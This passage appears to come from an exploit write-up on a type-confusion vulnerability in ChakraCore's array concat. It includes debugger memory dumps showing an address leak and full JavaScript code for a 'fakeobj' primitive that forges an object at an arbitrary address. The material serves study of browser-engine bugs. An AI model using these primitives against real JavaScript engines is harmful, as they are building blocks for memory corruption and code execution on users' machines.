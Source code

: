 Here `dest[0]` stores the object's address. Since the function "think" that `pDestArray` is a `JavscriptNativeIntArray`, it will take first three elements ( `0xf03d8140`, `0x7ffff` and `0x1` ) and convert them into the form of the `JavascriptArray` elements. After the conversion the memory layout will become something like:
```
gef➤  tel 0x00007ffff03d83c0
0x00007ffff03d83c0│+0x00: 0x0000000300000000
0x00007ffff03d83c8│+0x08: 0x0000000000000011
0x00007ffff03d83d0│+0x10: 0x0000000000000000
0x00007ffff03d83d8│+0x18: 0x00010000f03d8140  <-- dest[0] ( dest = c array )
0x00007ffff03d83e0│+0x20: 0x0001000000007fff  <-- dest[1]
0x00007ffff03d83e8│+0x28: 0x0001000000000001  <-- dest[2]
```

Note that `dest[0]` and `dest[1]` now stores the value of the object's address ( lower part and upper part ), thus we can leak the object's memory address by combining `c[0]` & `c[1]`. 

### fakeobj
The goal of `fakeobj` is to fake a Javascript object at an arbitrary address. 

```javascript
    var a1 = [];
    for (var i = 0; i < 0x100; i++) {
        a1[i] = i;
    }

    var a2 = [lower(addr), upper(addr)]; // addr = arbitrary address


    var c = new Function();
    c[Symbol.species] = function() {
        new_array = [];
        return new_array;
    };
    a1.constructor = c;

    a2.__defineGetter__(Symbol.isConcatSpreadable, function () {
        new_array[0] = {};
        return true;
    });

    var res = a1.concat(a2);
    return res[0x100/2]; // res[128] = an object @ addr
```

Here when `var res = a1.concat(a2);` was executed, the ChakraCore engine will ran to line [3176](https://github.com/Microsoft/ChakraCore/blob/dd33b4ceaf4b38b44d279d13988ecbd31df46ed2/lib/Runtime/Library/JavascriptArray.cpp#L3176):

```
bool converted = CopyNativeIntArrayElements(pDestArray, idxDest, pItemArray);
```

Here `pDestArray` is **"suppose"** to be a `JavscriptNativeIntAarray`, but again, we pass the argument as a `JavascriptArray` data type instead, causing the type confusion vulnerability.
